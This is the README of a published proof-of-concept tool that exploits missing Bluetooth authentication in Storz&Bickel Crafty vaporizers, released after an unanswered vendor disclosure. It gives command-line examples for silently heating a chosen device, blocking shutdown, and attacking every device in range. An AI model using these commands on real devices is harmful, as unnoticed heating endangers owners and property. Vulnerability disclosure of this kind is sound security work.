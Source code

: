# VapeOff
VapeOff is a tool wich uses the lack of authentication in the communication protocoll, to control vaporizers (at the moment only the Crafty) from Storz&Bickel. The issue was reported to Storz&Bickel on 15 August 2019. The 90 days deadline expired on 13.11.2019 without reaction, and therefore this script will be published without fix for the devices.

Currently it is possible to heat devices up (without led and vibration) and prevent shutdown by the owner, to prevent turning devices on and to let all craftys in proximity vibrate and blink.

## Usage
```
usage: vapeoff.py [-h] [-i INTERFACE] [-m MAC] [-a] [-o] [-p] [-s] [-f]
                  [-t TARGET_TEMP] [-l] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        specify interface (default: hci0)
  -m MAC, --mac MAC     specify target mac (default: None)
  -a, --all             attack all devices in area, overwrites '--mac'
                        (default: False)
  -o, --heat            start device(s) (default: False)
  -p, --perm            enable permanent bluetooth (default: False)
  -s, --silent          deactivate vibration and leds of devices (default:
                        False)
  -f, --vibrate         let devices vibrate (default: False)
  -t TARGET_TEMP, --target_temp TARGET_TEMP
                        sets the target temperature (default: None)
  -l, --list-devices    run discovery and print macs of supported devices in
                        the area. Can be combined with '--mac' and '--all'
                        (default: False)
  -v, --verbose
```

## Examples

Turning all Crafty's on in proximity
```
python3 vapeoff.py -o -a
```
Turning on only a specified device without notification of the owener
```
python3 vapeoff.py -o -m [MAC] --silent
```

Preventing tuning on of Crafty's in proximity

```
python3 vapeoff.py -a
```

Letting all Crafty's in proximity vibrate and blink
```
python3 vapeoff.py -a -f
```

## Workarounds

a) Sometimes disconnecting fails. In this case the connection must be disconnected manually. This is possible via Bluetooth Manager or resetting the Bluetooth interface. 

## Dependencies
* python3
* bitstring
* gatt>=0.2.7
